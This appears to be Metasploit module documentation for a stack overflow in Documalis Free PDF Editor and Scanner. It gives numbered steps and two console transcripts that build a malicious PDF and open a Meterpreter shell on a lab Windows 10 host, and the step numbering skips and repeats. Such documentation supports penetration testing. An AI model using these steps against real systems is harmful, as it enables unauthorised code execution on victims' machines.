 ## Vulnerable Application

  Documalis Free PDF Editor version 5.7.2.26 and Documalis Free PDF Scanner version 5.7.2.122 do not appropriately
  validate the contents of JPEG images contained within a PDF. Attackers can exploit this vulnerability to trigger
  a buffer overflow on the stack and gain remote code execution as the user running the Documalis Free PDF
  Editor or Documalis Free PDF Scanner software.

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/documalis_pdf_editor_and_scanner`
   4. Do: `set TARGET 0` for Documalis Free PDF Editor or `set TARGET 1` for Documalis Free PDF Scanner
   5. Do: `set payload windows/meterpreter/bind_tcp`
   6. Do: `set RHOST [Target IP]`
   7. Do: `set LPORT [Port to make the target host listen on]`
   9. Do: `run`
   10. Do: `use exploit/multi/handler`
   11. Do: `set payload windows/meterpreter/bind_tcp`
   12. Do: `set RHOST [Target IP]`
   13. Do: `set LPORT [Same port as before, this will be the port the target is listening on]`
   13. Do: `run`
   14. Copy the generated file to the target machine
   15. For Documalis Free PDF Editor, drag and drop the PDF to open it. For Documalis Free PDF Scanner, select the Add
       button on the right side of the screen and then select the malicious PDF file from the file prompt.
   16. You should get a shell as the user running either Documalis Free PDF Scanner or Documalis Free PDF
       Editor (depending on which software was exploited).

## Options
  **FILENAME**
  Name of the PDF file that Metasploit will generate. This will default to "msf.pdf", but can be changed.

## Scenarios

### Documalis Free PDF Editor v5.7.2.26 on Windows 10 x64 v2004
```
msf5 > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 0
TARGET => 0
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 6655
LPORT => 6655
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6655             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Documalis Free PDF Editor v.5.7.2.26 / Win 7, Win 10

msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:6655
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set LPORT 6655
LPORT => 6655
msf5 exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:6655
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:6655) at 2020-07-31 17:05:06 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### Documalis Free PDF Scanner v5.7.2.122 on Windows 10 x64 v2004
```
msf5 > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 1
TARGET => 1
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 7788
LPORT => 7788
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     7788             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   Documalis Free PDF Scanner v.5.7.2.122 / Win 7, Win 10


msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:7788
msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf5 exploit(multi/handler) > set LPORT 7788
LPORT => 7788
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:7788
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:7788) at 2020-07-31 17:31:35 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
